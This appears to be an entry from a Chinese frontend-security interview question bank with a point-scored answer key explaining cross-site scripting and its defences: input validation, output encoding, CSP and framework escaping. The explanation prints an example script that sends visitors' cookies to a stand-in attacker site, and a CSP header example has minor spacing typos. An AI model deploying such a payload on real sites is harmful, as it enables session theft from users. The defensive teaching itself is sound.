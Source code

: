 # 前端安全

## 什么是跨站脚本攻击（XSS）？如何防范？

#### 类型：`基础`

#### 级别：`W1`、`W2`、`W3`、`W4`、`W5`、`W6`

#### 解答（9 分）

<details>

- **2：** 跨站脚本攻击（XSS）是一种常见的网络安全漏洞。它允许攻击者将恶意脚本（通常是 JavaScript，但也可以是其他客户端脚本语言，如 VBScript）注
入到目标网站中。这些恶意脚本在用户的浏览器中执行，因为浏览器会把它当作正常的脚本代码来解析。例如：
一个存在 XSS 漏洞的网站有一个评论功能。攻击者在评论框中输入一段包含恶意 JavaScript 代码的评论，如
`<script>document.location = 'http://malicious - site.com?cookie=' + document.cookie</script>`。当其他用户访问包含这条评论
的页面时，他们的浏览器会执行这段脚本。这段脚本会获取用户的浏览器 cookie 信息（其中可能包含用户的登录凭证等敏感信息），并将其发送到攻击者指定的恶意
网站`（http://malicious - site.com）`。

- **1：** 输入验证和过滤：<br/>
&emsp;对用户输入进行严格验证：在接收用户输入的地方（如表单提交、URL 参数等），要验证输入的内容是否符合预期的格式。例如，如果是一个只允许输入数字的字段，要检查输入是否真的是数字。
&emsp;过滤特殊字符：对于可能包含脚本代码的字符进行过滤。例如，对<、>、&、"、'等 HTML 特殊字符进行转义。在 JavaScript 中，可以使用encodeURIComponent()函数对用户输入的 URL
 参数进行编码，在服务器端也可以使用相应的函数来处理。例如在 PHP 中，使用htmlspecialchars()函数来转义 HTML 中的特殊字符，这样可以防止用户输入的内容被当作 HTML 标签或脚本解析。
- **2：** 输出编码：<br/>
&emsp;根据输出上下文进行编码：当把用户输入的数据输出到 HTML 页面时，要根据输出的位置进行合适的编码。如果是输出到 HTML 标签内部的文本内容，应该使
用 HTML 实体编码。例如，`将<转义为&lt;，>转义为&gt;`。如果是输出到 JavaScript 代码中的变量，要使用 JavaScript 编码，如对引号等进行转义，以防止代码注入。
- **2：** 内容安全策略（CSP）：<br/>
&emsp;设置策略限制脚本来源：CSP 是一种浏览器安全机制，它允许网站所有者定义哪些来源的脚本可以在页面上执行。例如，可以在服务器的响应头中设
置`Content-Security-Policy: default- src'self'; script-src'self' https://trusted-scripts.com`。这意味着默认情况下，只允许来自当前网
站（self）的资源加载，而脚本可以来自当前网站和`https://trusted - scripts.com`。这样可以防止外部恶意脚本的注入。<br/>
&emsp;阻止内联脚本和 eval () 函数的滥用：CSP 还可以设置script-src指令为'nonce-value'或'hash-value'来限制内联脚本的执行。内联脚本是直接写在
HTML 标签中的脚本，如`<script>alert('XSS');</script>`，这种形式的脚本容易被攻击者利用。同时，限制eval()函数的使用，因为eval()可以动态地执行字符串形式的 JavaScript 代码，
攻击者可能会利用它来执行恶意代码。
- **2：** 使用安全的库和框架：利用内置的安全机制，许多现代的前端框架（如 React、Vue.js）都有内置的安全机制来防止 XSS。例如，React 会自动对输出到 DOM 中的内容进行转义，除非你使用dangerouslySetInnerHTML属性（这种情况下开发者需要自己确保内容是安全的）。Vue.js 也有类似的机制，在使用插值表达式`（{{}}）`时会对内容进行 HTML 转义，防止脚本注入。

</details>